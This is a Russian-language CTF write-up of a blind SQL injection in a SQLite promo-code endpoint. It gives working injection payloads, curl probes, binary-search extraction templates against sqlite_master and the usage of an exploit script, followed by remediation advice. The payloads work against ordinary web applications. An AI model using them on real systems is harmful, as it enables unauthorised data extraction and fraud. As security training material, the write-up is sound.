


# Momentum

| | |
|---|---|
| **Платформа / Событие** | liga-ctf-r1-2026 |
| **Категория** | web |
| **Сложность** | easy–medium |
| **Статус** | done |
| **Дата решения** | 21.11.2026 |
| **Ссылка на таск** |(инстанс одноразовый, на момент публикации уже недоступен) |

## TL;DR

Публичный эндпоинт проверки промокода `GET /api/v1/promo/check?code=` склеивает `code`
в SQL-текст и отвечает одним битом `{"available": true|false}` — готовый blind-оракул.
Инъекция подтверждается парой `x' OR '1'='1'--` / `x' OR '1'='2'--`; дальше бинарный
поиск через `length()` и `unicode(substr(...))` вытягивает из `sqlite_master` →
`promos` живой код `3LJFKONNIF` (100 активаций; все «витринные» коды исчерпаны).
`POST /promo/redeem` с этим кодом даёт +10 000 ₽ стартового капитала и
`flag{bl1nd_sql1_unl0cks_th3_pr0m0_pqiwrw7N31c6b9aa}`. Автоматизация — `exploit.py`.

## Recon

- На `/profile` форма «Активировать промокод». В исходнике страницы видно, куда ходит фронт:

```js
fetch('/api/v1/promo/check?code='+encodeURIComponent(code))
  .then(function(r){return r.json();})
  .then(function(j){ hint.innerHTML = j.available
      ? '✓ промокод действителен'
      : 'промокод не найден или исчерпан'; });
```

- Ответ эндпоинта — ровно один бит; «не найден» и «исчерпан» неразличимы, ошибки SQL
  не показываются. Единственный канал — значение `available`, значит blind.
- Коды генерируются per-instance: код с предыдущей инстанции `EZWMIH6BHL` после
  пересоздания контейнера не работает — живой код каждый раз приходится добывать дампом.

## Steps

### 1. Подтверждение SQLi — четыре запроса к оракулу

Либо ручками вводим SQLI пейлоады и видем такое:



Как только пейлоад введен мы увидим сообщение: `промокод действителен`

Либо через `curl`:

```bash
BASE='https://<instance>'
curl -sG "$BASE/api/v1/promo/check" --data-urlencode "code=x"
curl -sG "$BASE/api/v1/promo/check" --data-urlencode "code=x' OR '1'='1'--"
curl -sG "$BASE/api/v1/promo/check" --data-urlencode "code=x' OR '1'='2'--"
curl -sG "$BASE/api/v1/promo/check" --data-urlencode "code=x' OR (SELECT count(*) FROM sqlite_master)>0--"
```

| code | SQL, который собирает сервер | available |
|---|---|---|
| `x` | `... WHERE code='x' AND uses_left>0 LIMIT 1` | false |
| `x' OR '1'='1'--` | `... WHERE code='x' OR '1'='1'-- AND uses_left>0 ...` | **true** |
| `x' OR '1'='2'--` | `... WHERE code='x' OR '1'='2'-- AND uses_left>0 ...` | false |
| `x' OR (SELECT count(*) FROM sqlite_master)>0--` | подзапрос внутри OR | **true** |

Разница true/false между строками 2 и 3 (запросы идентичны, отличается только
константа) доказывает, что бит управляется нашим выражением — **SQLi подтверждена**.
Строка 4 показывает, что в выражение можно класть подзапросы: кавычки внутри них
сбалансированы и наружную строку ломает ровно один раз начальный `x'`. Комментарий
`--` съедает хвост `AND uses_left > 0`, потому что запрос однострочный.

### 2. Оракул -> бинарный поиск

Шаблон пейлоада: `x' OR (<expr>)>N--` -> `available:true` <-> `<expr> > N`.
Число читается за ~log2(диапазон) запросов; строка — сначала длина, потом символы:

```text
длина:     x' OR length((<SUBQ>))>N--
символ i:  x' OR unicode(substr((<SUBQ>),i,1))>N--      ~7 запросов на ASCII-символ
```

Реальная трасса длины схемы (`SUBQ = SELECT sql FROM sqlite_master WHERE name='promos'`,
12 запросов):

```text
x' OR ((SELECT length((SUBQ))))>2047--  -> false
x' OR (...)>1023--  -> false
x' OR (...)>511--   -> false
x' OR (...)>255--   -> false
x' OR (...)>127--   -> false
x' OR (...)>63--    -> true
x' OR (...)>95--    -> false
x' OR (...)>79--    -> true
x' OR (...)>87--    -> true
x' OR (...)>91--    -> true
x' OR (...)>93--    -> false
x' OR (...)>92--    -> false     =>  длина = 92
```

И первый символ той же строки (7 запросов, код 67 = `C`):

```text
x' OR ((SELECT unicode(substr((SUBQ),1,1))))>79--  -> false
x' ... >55--  -> true
x' ... >67--  -> false
x' ... >61--  -> true
x' ... >64--  -> true
x' ... >65--  -> true
x' ... >66--  -> true     =>  67 = 'C'
```

### 3. Цепочка запросов до промокода

Три скаляра подряд; для каждого шага `SUBQ` подставляется в шаблон из шага 2:

| # | SUBQ (подзапрос внутри пейлоада) | результат |
|---|---|---|
| 1 | `SELECT group_concat(name) FROM sqlite_master WHERE type='table'` | `promos` |
| 2 | `SELECT sql FROM sqlite_master WHERE name='promos'` | `CREATE TABLE promos (id INTEGER PRIMARY KEY, code TEXT NOT NULL, uses_left INTEGER NOT NULL)` |
| 3 | `SELECT group_concat(code \|\| ':' \|\| uses_left, ', ') FROM promos` | `WELCOME:0, BONUS2024:0, START10K:0, TRADEDAY:0, FREECASH:0, NEWBIE50:0, 3LJFKONNIF:100` |

Те же шаги руками через `exploit.py`:

```bash
python3 exploit.py --base "$BASE" --probe            # шаг 1: подтверждение
python3 exploit.py --base "$BASE" --tables           # шаг 3.1 -> promos
python3 exploit.py --base "$BASE" --schema promos    # шаг 3.2 -> схема
python3 exploit.py --base "$BASE" --dump-promos      # шаг 3.3 -> коды
```

Шесть «витринных» кодов исчерпаны (`uses_left=0`), живой один — случайный
`3LJFKONNIF`, 100 активаций. Санити-чек честным путём:
`GET /api/v1/promo/check?code=3LJFKONNIF` → `{"available": true}`.

### 4. Редим и флаг

После получения промокода просто вводим его и получаем флаг:



+10 000 Руб. (1 000 000 копеек) — стартовый капитал, без которого торговлю не начать.
Средний сегмент флага привязан к инстансу, суффикс константный.

## Why it works

1. `code` — данные, попавшие в код запроса (CWE-89): параметр управляет не значением,
   а структурой SQL.
2. Один управляемый бит на публичном эндпоинте — полноценный oracle: любое
   SQLite-выражение, возвращающее число (`length`, `unicode`, `count`), читается
   бинарным поиском.
3. Rate limit отсутствует, клиентский debounce 300 мс живёт в JS и серверной защитой
   не является (CWE-602): сотни запросов на дамп проходят без блокировок.

## Defense

1. **Параметризация** — единственное правильное: ввод никогда не попадает в SQL-текст.
2. Убрать публичный оракул: проверка кода нужна только в момент активации —
   объединить `check`+`redeem` в один POST под сессией.
3. Rate limit per IP/аккаунт и алерт на частоту обращений к `/promo/check`:
   посимвольный дамп выдаёт себя сотнями однотипных запросов.

## Artifacts

- `exploit.py` — единственный артефакт, stdlib only: `--probe` (подтверждение),
  `--tables` / `--schema <table>` / `--dump-promos` (дампы),
  `--query "<scalar SQL>"` — чтение любого скалярного подзапроса.

## References

- [PortSwigger: Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind)
- [PortSwigger: Exploiting blind SQL injection by triggering conditional responses](https://portswigger.net/web-security/sql-injection/blind/conditional-responses)
- [OWASP: SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQLite: core functions (substr, unicode, group_concat)](https://www.sqlite.org/lang_corefunc.html)
